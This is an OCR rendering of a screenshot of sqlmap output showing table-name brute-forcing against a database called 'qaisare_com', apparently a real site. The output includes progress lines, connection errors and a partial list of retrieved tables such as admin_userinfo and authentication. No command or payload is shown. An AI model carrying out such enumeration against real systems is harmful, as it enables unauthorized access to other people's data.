 [16:34:52] [INFO] adjusting time delay to 1 second due to good response times
[16:34:52] [INFO] retrieved: idioma                                                              
[16:34:52] [INFO] retrieved: dtb_campaign_detail                                                 
[16:34:53] [INFO] retrieved: jos_components                                                      
[16:34:53] [INFO] retrieved: user_rights                                                         
[16:34:54] [INFO] retrieved: tf_messages                                                         
[16:34:54] [INFO] retrieved: Class_Def_Table                                                     
[16:35:51] [INFO] retrieved: journal                                                             
[16:36:41] [INFO] retrieved: ike_configs                                                         
[16:36:48] [INFO] retrieved: forum_cat                                                           
[16:37:30] [INFO] retrieved: dtb_bat_order_daily_hour                                            
[16:37:46] [INFO] retrieved: R1Sum                                                               
[16:38:15] [INFO] retrieved: shipping                                                            
[16:38:57] [INFO] retrieved: admin_userinfo                                                      
[16:39:15] [INFO] retrieved: mb_users                                                            
[16:40:11] [INFO] retrieved: authentication                                                      
[16:40:55] [INFO] retrieved: tblnews                                                             
[16:41:08] [INFO] retrieved: Bilder                                                              
[16:41:17] [INFO] retrieved: webapps                                                             
[16:42:38] [INFO] tried 2594/3311 items (78%)

[16:42:57] [WARNING] turning off pre-connect mechanism because of connection reset(s)
[16:42:57] [CRITICAL] connection reset to the target URL. sqlmap is going to retry the request(s)
[16:42:58] [INFO] retrieved: nuke_bbsearch_results                                               
[16:43:06] [INFO] tried 2619/3311 items (79%)


[16:44:05] [ERROR] thread MainThread: can't establish SSL connection
                                                                                                 
Database: qaisare_com
[21 tables]
+--------------------------+
| Bilder                   |
| Class_Def_Table          |
| EMPLOYEE                 |
| R1Sum                    |
| admin_userinfo           |
| aggtest                  |
| authentication           |
| dtb_bat_order_daily_hour |
| dtb_campaign_detail      |
| forum_cat                |
| idioma                   |
| ike_configs              |
| jos_components           |
| journal                  |
| mb_users                 |
| nuke_bbsearch_results    |
| shipping                 |
| tblnews                  |
| tf_messages              |